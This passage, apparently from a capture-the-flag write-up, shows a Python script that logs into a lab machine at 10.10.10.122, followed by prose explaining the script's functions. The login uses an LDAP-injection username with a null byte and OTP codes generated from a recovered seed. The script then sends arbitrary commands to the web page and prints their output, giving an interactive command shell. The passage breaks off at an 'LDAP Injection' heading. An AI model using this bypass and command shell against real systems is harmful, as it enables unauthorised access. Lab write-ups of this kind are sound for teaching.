      15         super().__init__()
     16         self.interval = 1.3
     17         self.seed = '285449490011357156531651545652335570713167411445727140604172141456711102716717000'
     18         self.s = requests.session()
     19         if proxy: self.s.proxies = proxy
     20         
     21         # Get Time From Box
     22         r = self.s.get('http://10.10.10.122/login.php')
     23         local = time.gmtime()
     24         server = time.strptime(r.headers['Date'], "%a, %d %b %Y %H:%M:%S %Z")
     25         self.offset = time.mktime(local) - time.mktime(server)
     26         
     27         # Login
     28         self.s.post('http://10.10.10.122/login.php',
     29                 data = {"inputUsername": "ldapuser%29%29%29%00",
     30                         "inputOTP": self.get_otp()})
     31                         
     32 
     33     def get_otp(self):
     34         process = Popen(['stoken', f'--token={self.seed}', f'--use-time=-{self.offset}', '--pin=0000'],
     35                 stdout=PIPE)
     36         out,err = process.communicate()
     37         return out.decode().strip()
     38         
     39 
     40     def default(self, cmd):
     41         resp = self.s.post('http://10.10.10.122/page.php',
     42                 data = {"inputCmd": cmd, "inputOTP": self.get_otp()})
     43         result = re.findall(r'<pre>(.*)</pre>', resp.text, re.DOTALL)
     44         if len(result) > 0:
     45             print(result[0].rstrip())
     46             
     47 term = CTF_TERM(proxy={"http":"http://127.0.0.1:8080"})
     48 try: 
     49     term.cmdloop()
     50 except KeyboardInterrupt:
     51     print()
    

The terminal class has 3 functions:

  * `__init__` \- Initialized variables, gets time for OTP, and logs into the webpage to get access to the `page.php` page. The time is a bit weird, since timezones are a huge pain in python. If this doesn’t work, try messing with that offset.
  * `get_otp` \- Returns the current otp value.
  * `default` \- When I get the prompt, this will run for anything I enter. It takes the commands and submits them via the webpage to the host to be run.

### LDAP Injection

#### Actual Queries
